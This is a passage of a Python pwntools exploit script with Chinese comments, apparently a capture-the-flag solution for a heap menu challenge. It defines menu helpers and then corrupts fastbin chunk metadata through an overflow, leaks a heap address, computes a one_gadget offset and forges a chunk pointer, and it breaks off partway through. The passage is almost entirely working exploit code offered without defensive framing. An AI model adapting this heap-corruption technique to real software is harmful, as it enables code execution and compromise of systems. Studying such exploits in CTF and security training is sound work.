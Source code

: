  ```
      giacomo.sendlineafter('size:',size)
  
  def delete(id):
      id = str(id)
      giacomo.sendlineafter('5.exit\n','2')
      giacomo.sendlineafter('index:',id)
  
  def fill(id, content):
      id = str(id)
      giacomo.sendlineafter('5.exit\n','3')
      giacomo.sendlineafter('index:\n', id)
      giacomo.sendafter('content:\n', content)
      giacomo.sendline('')
  
  def print_heap(id):
      id = str(id)
      giacomo.sendlineafter('5.exit\n','4')
      giacomo.sendlineafter('index:\n', id)
  
  
  def main():
      
  
  #---------------------------------------------------------------- 
  
      # gdb.attach(giacomo)
      # pause()
      
      allocate(0x10) #0
      allocate(0x10) #1 
      allocate(0x10) #2
      allocate(0x10) #3
      allocate(0x10) #4
  
      #将fastbin链更改为fastbin->1->4
      delete(2) 
      delete(1)
      payload = b'a'*0x10 + p32(0xffffffff) + p32(0) + p64(0x10) + p8(0xc0)
      fill(0, payload)
  
      #将4的inuse位更改
      payload = b'a'*0x10 + p32(0xffffffff) + p32(0)
      fill(3, payload)
  
      #重新利用4也就是2
      allocate(0x10) #1
      allocate(0x10) #2 & 4
      
      #获取1的地址
      delete(1)
      delete(4)
      print_heap(2)
      
      #计算需要申请的地址位置和onegadget位置
      addr = giacomo.recv(numb = 0x8) #接收1的地址 0x555555558060
      addr = addr.hex()
      addr_1 = addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
      addr_1 = int(addr_1,16)
      one_gadget = addr_1 - 0x2263 #one_gadget地址
      chunk = addr_1 + 0x3b0 #申请的chunk地址
      payload = b'a'*0x10 + p32(0xeeeeeeee) + p32(0) + p64(0x10) + p64(chunk)
      fill(3, payload)
  
  ```